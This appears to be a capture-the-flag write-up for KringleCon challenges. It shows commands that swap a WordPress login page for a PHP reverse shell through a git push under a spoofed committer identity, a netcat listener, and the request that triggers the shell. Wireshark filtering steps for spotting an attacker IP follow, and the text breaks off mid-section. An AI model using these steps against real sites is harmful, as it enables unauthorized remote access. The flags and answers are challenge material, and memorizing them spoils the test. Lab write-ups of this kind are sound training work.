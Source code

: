- copy PHP reverse shell into github repo (as shell.php)
- configure PHP reverse shell (ip and port)

```    
mv wp-login.php wp-login.php.old

mv shell.php wp-login.php

git config user.email sporx@kringlecon.com

git config user.name knee-oh

git add *

git commit -m '.'

git push
```

- start netcat listener in background 

```    
nc -lvnp 4444 &

curl http://wordpress.flag.net.internal/wp-login.php
```

- receive shell, I had to background and fg again to get shell output

```
cat flag.txt
```

#### Flag: `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

# Web Ring

## Boria Artifacts Challenges

### Naughty IP:

- Open wireshark -> statistics -> protocol hierarchy
- url encoded form data suspicious -> apply as filter

#### Answer: `18.222.86.32`

### Credential Mining:

Filter:
``` 
ip.src==18.222.86.32 && http.request.method==POST
```
or
